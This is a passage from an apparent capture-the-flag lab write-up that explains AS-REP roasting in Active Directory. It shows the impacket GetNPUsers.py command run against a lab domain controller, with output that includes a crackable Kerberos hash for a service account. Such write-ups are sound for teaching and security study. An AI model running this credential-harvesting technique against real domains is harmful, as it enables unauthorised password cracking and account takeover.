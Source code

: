 After enumerating all users, I compiled a wordlist of all existing users.

## Enumeration (Finding AS-REP-roastable Users in Active Directory)

AS-REP-roastable users are those that don't require Kerberos preauthentication. When Kerberos preauthentication is disabled, you can intercept the the encrypted part in the AS-REP which has a secret that is encrypted with the user's password. That secret can then be brute forced offline to get the user's password.  You can read more upon the subject from [harmj0y's blog](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/).

Using impacket's `GetNPUsers.py` will figure out with users have Kerberos preauthentication disabled and will attempt to translate the encrypted secret into a piece of information that can be cracked with an offline brute force attack:

```
$ python3 ~/tools/impacket/examples/GetNPUsers.py -usersfile users.txt -format hashcat -dc-ip 10.10.10.161 htb.local/
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f05a2b15c6dde44f6d8830c5b0627b34$350048b7786adbdbfe6ac933a80e9488f0a89da3a342c4c49d8ab1161ea628ed24c25a4d07443b5b8db2d60832e686d793651528fa447e8c9abb916be6d4f9a17836a6ec52eed66211cfed3a4aa130e6c065c14965246f640b6e97c49e0cc40b336abc3b297c9d4297079237b69f39731f77cded12c8d3c262ffd7648372953b695094a2bd221ac95b85af908033a3b2f2cd5e819313c3a04924a1be52fb660ce4485968744be4fa0ec1acc63353f110538615496cbfa765a03ad4e634f893dbd7966c89bdd6df0d328b6bd11b1af6ff046db8937bb6a564ba849c5c055b203d3882acc9d4b4
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
